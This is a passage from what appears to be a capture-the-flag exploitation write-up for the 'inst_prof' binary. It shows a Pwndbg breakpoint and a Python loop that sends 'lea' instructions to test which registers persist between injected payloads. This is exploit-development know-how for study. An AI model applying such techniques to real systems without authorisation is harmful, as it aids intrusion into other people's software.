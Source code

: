 ![GDB with Pwndbg stopped on our breakpoint](/assets/writeups/inst_prof_pwn/pwndbg_start.png){: .center-image }

Firstly, lets check if there are any registers that are persistent between consecutive payloads.
This can be checked easily by putting the below code instead of `send_instr('nop')` in our script:
```python
# we don't check for rcx as ecx is used as a loop counter
regs = ('rax', 'rbx', 'rdx', 'rsi', 'rdi',
        'r8', 'r9', 'r10', 'r11', 'r12', 'r13', 'r14', 'r15')

for reg in regs:
    info('Modyfing %s register' % reg)  # inform us what will be send
    send_instr('lea %s, [r9+32]' % reg) # change particular register's value
```

